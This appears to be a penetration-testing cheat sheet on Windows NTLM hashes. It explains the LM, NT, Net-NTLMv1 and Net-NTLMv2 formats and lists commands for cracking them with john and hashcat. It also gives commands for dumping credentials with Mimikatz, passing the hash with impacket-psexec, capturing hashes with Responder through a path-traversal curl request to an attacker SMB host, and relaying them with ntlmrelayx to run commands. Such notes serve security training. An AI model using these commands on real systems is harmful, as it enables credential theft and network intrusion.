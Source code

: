 # NTLM

## Introduction

Windows stores hashed user passwords in the Security Account Manager (SAM) database file or at NTDS.DIT data base which is located at the Domain Controllers.\
Important thing to note that the hashes stored are not salted.

There are multiple versions of hashes that used to store passwords in windows.

### LM

LM hash is the most traditional way to store passwords in windows but it's considered weak and not enough. also, It’s disabled by default since windows vista/windows server 2008.

Cracking **LM** hash:

```bash
john --format=lm hash.txt
hashcat -m 3000 -a 3 hash.txt
```

### **NTHash**

On modern systems, the hashes are stored as NTHash hashes a.k.a NTLM.

Cracking NTHashes

```bash
john --format=nt hash.txt
hashcat -m 1000 -a 3 hash.txt
```

### NTLMv1 <a href="#id-1070" id="id-1070"></a>

The NTLMv1 A.K.A. Net-NTLMv1 protocol uses the **NTHash** in a challenge/response between a server and a client.

Cracking NTLMv1 hash:

```bash
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 <a href="#id-4fef" id="id-4fef"></a>

NTLMv2 A.K.A. Net-NTLMv2 is the new and improved version of the NTLMv1 protocol, which makes it a bit harder to crack.

Cracking NTLMv2 hash:

```bash
john --format=netntlm hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## Mimikatz&#x20;

**mimikatz** is a well known tool to extract passwords and hashes in windows environments.

{% hint style="warning" %}
NOTE: We can only extract SAM database if we are running Mimikatz as `Administrator` (or higher) and have the `SeDebugPrivilege`
{% endhint %}

We can also elevate our privileges to the _SYSTEM_ account with tools like _PsExec_[11](https://portal.offsec.com/courses/pen-200-44065/learning/password-attacks-44959/working-with-password-hashes-45019/cracking-ntlm-44965#fn-local\_id\_3266-11) or the built-in Mimikatz _token elevation_ to obtain the required privileges.&#x20;

It is possible to obtain the required privileges using `PsExec` or token elevation using mimkatz.

### First steps

Running mimikatz and checking basic priviliges:

```batch
.\mimikatz.exe
privilege::debug
```

Elevating to the required privileges

```batch
token::elevate
```

### Commands

Extract plaintext passwords and password hashes from all available sources

{% code overflow="wrap" %}
```batch
sekurlsa::logonpasswords 
```
{% endcode %}

Extract the hashes from the SAM.

```batch
lsadump::sam 
```

## Pass The hash

{% hint style="warning" %}
NOTE: In order to perform pass-the-hash a local Administrator is required unless the target machine is misconfigured.
{% endhint %}

Passing the hash using `psexec` from impacket:

```bash
impacket-psexec -hashes :<NTHash> <username>@<target>
```

## Capture Net-NTLMv2

### Responder

Responder is a tool which able to start a server running various services.\
The Responder server handles the authentication process and prints all captured credentials and hashes.\
It supports HTTP, FTP, SMB as well poisoning capabilities for LLMNR, NBT\_NS and MDNS.

***

Basic scenario for capturing NTLMv2 using vulnerable web application:

running responder

```bash
sudo responder -I <interface>
```

assuming web is vulnerable to path traversal and using smb shares to display pages:

```bash
curl --path-as-is  'http://<targer>/\\<attacker_responder_ip>/a'
```

The vulnerable website will then authenticate with the responder server and the hashes will be captured.&#x20;

## Relaying Net-NTLMv2

{% hint style="warning" %}
NOTE: In order to perform pass-the-hash a local Administrator is required unless the target machine is have UAC remote restrictions disabled. Also, smb signing needs to be disable.
{% endhint %}

In a scenario that NTLM is too hard to crack, it possible to relay the net-NTLM authentication hash to the service server.

In order to perform this attack, the tool `ntlmrelayx` by impacket scripts is used.\
Starting the `ntlmrelayx` server which will capture the Net-NTLM hash and relay it to the target machine:

{% code overflow="wrap" %}
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t <target> -c "<command>"
```
{% endcode %}



## References

{% embed url="https://en.hackndo.com/ntlm-relay/" %}
NTLM Relay - hackndo
{% endembed %}

{% embed url="https://github.com/SpiderLabs/Responder" %}
responder
{% endembed %}

{% embed url="https://github.com/ParrotSec/mimikatz" %}
mimkatz
{% endembed %}

{% embed url="https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4" %}
LM, NTLM, Net-NTLMv2, oh my!
{% endembed %}

\

